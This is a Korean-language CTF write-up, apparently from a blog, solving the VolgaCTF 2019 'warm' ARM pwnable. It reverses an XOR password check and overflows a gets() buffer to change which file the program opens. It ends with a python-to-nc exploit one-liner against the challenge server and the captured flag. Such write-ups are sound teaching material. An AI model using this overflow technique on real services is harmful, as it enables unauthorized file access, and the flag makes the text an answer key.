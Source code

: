 ```yaml
---
layout: post
title: ! "[VolgaCTF 2019] warm Write-up "
excerpt_separator: <!--more-->
tags:
  - nalda
  - VolgaCTF 2019
  - Write-up
---
```


volgaCTF 2019 대회에 출제된 Pwnable인 warm문제
<!--more-->

volgaCTF 2019에서 출제된 warm이라는 문제이다!

먼저 파일을 확인해보면
```bash
nalda@nalda:~$ file warm 
warm: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```
32bit ARM  Binary이다

먼저 IDA를 이용해 String을 확인했을 때,
```
LOAD:00000154	00000019	C	/lib/ld-linux-armhf.so.3
LOAD:0000033D	0000000A	C	libc.so.6
LOAD:00000347	00000005	C	gets
LOAD:0000034C	00000007	C	strcpy
LOAD:00000353	00000006	C	fopen
LOAD:00000359	00000005	C	puts
LOAD:0000035E	00000011	C	__stack_chk_fail
LOAD:0000036F	00000008	C	putchar
LOAD:00000377	00000006	C	abort
LOAD:0000037D	00000007	C	printf
LOAD:00000384	00000007	C	strlen
LOAD:0000038B	00000007	C	stdout
LOAD:00000392	00000007	C	fclose
LOAD:00000399	00000007	C	getenv
LOAD:000003A0	0000000F	C	__cxa_finalize
LOAD:000003AF	00000008	C	setvbuf
LOAD:000003B7	00000009	C	_IO_getc
LOAD:000003C0	00000012	C	__libc_start_main
LOAD:000003D2	00000014	C	ld-linux-armhf.so.3
LOAD:000003E6	00000012	C	__stack_chk_guard
LOAD:000003F8	0000000A	C	GLIBC_2.4
LOAD:00000402	0000001C	C	_ITM_deregisterTMCloneTable
LOAD:0000041E	0000000F	C	__gmon_start__
LOAD:0000042D	0000001A	C	_ITM_registerTMCloneTable
.rodata:00000B14	0000000A	C	FLAG_FILE
.rodata:00000B20	00000005	C	flag
.rodata:00000B28	00000017	C	Incorrect! Try again!\n
.rodata:00000B40	00000014	C	Unable to open file
.rodata:00000B54	0000001B	C	Unable to open %.*s file!\n
.rodata:00000B70	0000000E	C	Unknown error
.rodata:00000B80	0000002F	C	Hi there! I've been waiting for your password!
```

.rodata:00000B80영역에 
`Hi there! I've been waiting for your password!`라는 메시지가 있다는 사실을 알 수 있다.

```c
int sub_9EC()
{
  _IO_FILE *fp; // [sp+Ch] [bp+Ch]
  int c; // [sp+10h] [bp+10h]
  char v3[100]; // [sp+14h] [bp+14h]
  char v4[100]; // [sp+78h] [bp+78h]

  setvbuf((FILE *)stdout, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      sub_8F0(&v4);
      puts("Hi there! I've been waiting for your password!");
      gets((char *)&v3);
      if ( !sub_788((const char *)&v3) )
        break;
      sub_978(1, 0);
    }
    fp = (_IO_FILE *)fopen((const char *)&v4, "rb");
    if ( fp )
      break;
    sub_978(2, &v4);
  }
  while ( 1 )
  {
    c = IO_getc(fp);
    if ( c == -1 )
      break;
    putchar(c);
  }
  fclose((FILE *)fp);
  return 0;
}
```

코드를 확인 해 보면 
1. `sub_8F0`함수를 통해 flag 파일을 읽어온다.
2. `v3`에 password를 받아온다
3. 입력받은 password는 `sub_788`함수에서 루틴을 체크한다.
4. 이를 통과하면, `v4`에 들어있는(2에서 반환된 값) file을 실행한다.
생각보다 간단한 프로그램이다 바로 `sub_788`의 내용을 확인해보자
```c
signed int __fastcall sub_788(const char *a1)
{
  char *s; // [sp+4h] [bp+4h]

  s = (char *)a1;
  if ( strlen(a1) <= 0xF )
    return 1;
  if ( (unsigned __int8)(*s ^ 0x23) != 85
    || (unsigned __int8)(s[1] ^ *s) != 78
    || (unsigned __int8)(s[2] ^ s[1]) != 30
    || (unsigned __int8)(s[3] ^ s[2]) != 21
    || (unsigned __int8)(s[4] ^ s[3]) != 94
    || (unsigned __int8)(s[5] ^ s[4]) != 28
    || (unsigned __int8)(s[6] ^ s[5]) != 33
    || (unsigned __int8)(s[7] ^ s[6]) != 1
    || (unsigned __int8)(s[8] ^ s[7]) != 52
    || (unsigned __int8)(s[9] ^ s[8]) != 7
    || (unsigned __int8)(s[10] ^ s[9]) != 53
    || (unsigned __int8)(s[11] ^ s[10]) != 17
    || (unsigned __int8)(s[12] ^ s[11]) != 55
    || (unsigned __int8)(s[13] ^ s[12]) != 60
    || (unsigned __int8)(s[14] ^ s[13]) != 114
    || (unsigned __int8)(s[15] ^ s[14]) != 71 )
  {
    return 2;
  }
  return 0;
}
```

생각보다 간단한 루틴체크이다.
각 조건별로 `(s[i] ^ s[i-1])`의 값과 !=로 뒤의값과 비교한다.
이 조건을 통해 python 코드를 작성했다.
```c
key = [ 85, 78, 30, 21, 94, 28, 33, 1, 52, 7, 53, 17, 55, 60, 114, 71 ]

passChar = 35

passwd = ""

for i in key:
    passChar = i ^ passChar
    passwd += chr(passChar)

print(passwd)
```


![]({{ site.baseurl }}/images/nalda/warm/1.png)

결과이다!
```
v8&3mqPQebWFqM?x
```

이 값을 입력하게 되면
```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```
라는 메시지가 나온당

뭔소린가 싶어서 고민을 했는데 뭔가 더 있단다

`sub_8F0`함수에서 환경변수로 저장된 flag 파일의 내용이 `Seek file with something more sacred!
`
서버가 닫혀 다른 write-up을 본 결과, `sacred`라는 파일을 읽으면 된다고 한다!


```python
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```

Flag is
```VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} ```
